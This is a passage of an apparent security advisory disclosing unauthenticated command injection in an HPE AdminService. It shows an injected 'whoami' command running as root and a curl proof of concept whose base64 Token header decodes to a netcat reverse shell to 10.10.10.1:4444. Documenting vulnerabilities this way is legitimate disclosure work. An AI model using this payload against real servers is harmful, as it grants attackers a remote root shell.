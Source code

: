 The server will respond with HTTP 500 error:

```
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 353
Date: Sun, 19 Apr 2020 21:09:23 GMT
Connection: close
Server: SHR

{
  "status" : 500,
  "code" : 500,
  "message" : "An error occurred. Please contact your system administrator",
  "developerMessage" : "An error occurred. Please contact your system administrator",
  "args" : "An error occurred. Please contact your system administrator",
  "moreInfo" : "mailto:support@hpe.com",
  "appCode" : "AUTHENTICATION_FAILED"
}
```

But our injection was executed, and the command ran as:

```
BOAdapter -releaseToken -token `whoami>/tmp/who `
```

Which results in another unauthenticated command injection as root:

```
[obruser@mfobr logs]$ cat /tmp/who
root
```

The proof of concept is so simple that again it fits in a *curl* command:

```
curl -i -s -k -X $'DELETE' \
    -H $'Host: mfobr.nat:21412' -H $'Token: YG5jIC1lIC9iaW4vYmFzaCAxMC4xMC4xMC4xIDQ0NDRg' \
    $'https://mfobr.nat:21412/AdminService/urest/v1/LogonResource'
```

As last time, this will spawn a root reverse shell to 10.10.10.1:4444.

You can view the attack in full glory in this asciinema cast:
[![asciicast](https://asciinema.org/a/395852.svg)](https://asciinema.org/a/395852)


#### 1.3: Command Injection in *logonWithCertificate()*

But wait, we're not done yet! Turns out the *AuthenticationManager* class is a gold mine for command injections. The next one is in *AuthenticationManager.logonWithCertificate()*:

```java
	public String logonWithCertificate(String username, String sharedSecret, String clientCompName) {
		if (!this.isUserAllowedForCertBased(username, sharedSecret)) {
			return null;
		}
		BasicAuthentication basicauth = new BasicAuthentication();
		String generatedToken = basicauth.generateTokenCert(username, clientCompName, sharedSecret);
		SimpleDateFormat dateFormat = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
		Calendar cal = Calendar.getInstance();
		mapCert.put(generatedToken, dateFormat.format(cal.getTime()));
		return generatedToken;
	}
```
